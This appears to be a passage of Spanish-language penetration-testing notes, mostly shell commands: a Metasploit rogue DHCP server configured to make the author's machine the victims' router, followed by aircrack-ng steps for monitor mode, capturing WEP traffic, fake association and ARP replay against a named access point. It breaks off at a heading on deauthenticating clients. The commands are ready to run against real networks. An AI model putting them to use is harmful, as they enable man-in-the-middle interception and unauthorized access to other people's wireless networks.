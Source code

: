 

#### dhcp falso

```bash
echo "1" > /proc/sys/net/ipv4/ip_forward
msfconsole
use auxiliary/server/dhcp
show options
set broadcast 10.1.1.255
# rango a dar
set dhcpipend 10.1.1.200
set dhcpipstart 10.1.1.190

set dnsserver 8.8.8.8
set netmask 255.255.255.0

set router 10.1.1.22 # mi direccion ip, me are pasar por el router
set srvhost 10.11.22 # servidor dhcp
exploit
```



### vulnerabilidades wifi

**modo monitor** 

Este modo sirve para que nuestra tarjeta se ponga a la escucha del trafico de la red, no solo el nuestro si no el de todo el mundo si estamos en un entorno wifi.

```bash
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon # ver redes ssid bssid potencia de red chanel, etc...
airmon-ng stop wlan0mon
```



**redes wep**    

capturar pequetes red especifica

```bash
airodump-ng -c 6 --bssid  mac-del-router -w file-trafic wlan0mon
```

asociarte al punto de acceso

```bash
aireplay-ng -1 0 -e pruebas -a mac-del-router -h mac-cliente wlan0mon
```

escuchar paquetes arp

```bash
aireplay-ng -3 -b mac-router -h mac-cliente wlan0mon
```

desautenticar cliente
